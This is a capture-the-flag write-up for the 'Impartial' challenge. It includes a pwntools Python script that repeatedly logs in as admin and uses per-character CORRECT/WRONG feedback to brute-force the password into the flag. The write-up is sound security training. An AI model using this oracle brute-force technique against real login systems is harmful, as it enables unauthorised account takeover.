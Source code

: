# Impartial

Author: [Gallifrey](https://github.com/gallifrey)


# Challenge

```
Check out the terminal-interface for this new company! Can you uncover any secrets?

Connect with:
nc jh2i.com 50026
```

# Solution

At first I tried bruteforcing the username, and wasted a lot of time on it.
The username changed every time, and I was stuck there for too long.
Then I found the 'admin' username, and figured it was the way to go.

Everytime I logged in as admin, it asked me to enter three random letters of the password...

```
Impartial Advice and Consulting
    . . . we will help you put the pieces together!

1. About
2. Login
3. Register
4. Contact
?. Exit

> 2
 
Please enter a username to log in.

Username: admin
 
For your security, please only enter a partial password.
To protect your account from hackers, enter only the characters
at position 25, 21, and 10 (separated by spaces).

Password:
```
... and told if each letter was correct or not:

```
Password: a a a
 25 character: WRONG
21 character: WRONG
10 character: WRONG

```
Using this to bruteforce the entire password:

```python
import re
from pwn import remote

r = remote("jh2i.com", 50026)

data = ''
nop = list() #---> For all the places a character ISN'T present
al = list(i for i in range(1,37))
flag = list('?' for i in range(40))

#list of all allowed chars
alfa_num = list(chr(x) for x in range(ord('a'),ord('z')+1))
alfa_num.extend(list(chr(x) for x in range(ord('A'),ord('Z')+1)))
alfa_num.extend(list(chr(x) for x in range(ord('0'),ord('1')+1)))
alfa_num.extend(['{','}','_'])

data = r.recvuntil(">").decode()
print(data,end=" ")

for l in alfa_num:
	f = open('a.txt','a') #--> To write down my findings in a file (like a sace progress), cause earlier version of this script kept throwing errors in the middle of a long run
	for i in range(40):
		r.sendline(b"2")
		print("2")
		data = r.recvuntil("Username:").decode()
		print(data,end=" ")
		r.sendline(b"admin")
		print("admin")
		data = r.recvuntil("Password:").decode()
		print(data,end=" ")
		s = "%s %s %s"%(l,l,l)
		print(s)
		r.sendline(s.encode())
		data = r.recvuntil(">").decode()
		print(data,end=" ")
		if '1.Judge' in data:
			r.sendline(b'3')
			continue
		for k in data.split('\n'):
			if 'CORRECT' in k:
				flag[list(int(i) for i in k.split() if i.isdigit())[0]] = l
				print(list(int(i) for i in k.split() if i.isdigit())[0])
			if 'WRONG' in k: 
				nop.extend(list(i for i in data.split() if i.isdigit()))
		print(''.join(flag))
	nop = list(set(nop))
	nop = list(int(a) for a in nop)
	nop = list(filter(lambda x: x not in nop,al))
	to_pr = l + '=' + str(nop)
	f.write(to_pr)
	f.close()

```

The script took some time to run, but I finally got a partial flag

```
?flag??artial?password?pu??le?pieces????

```

Then, guessing the flag wasn't hard

```
flag{partial_password_puzzle_pieces}
```
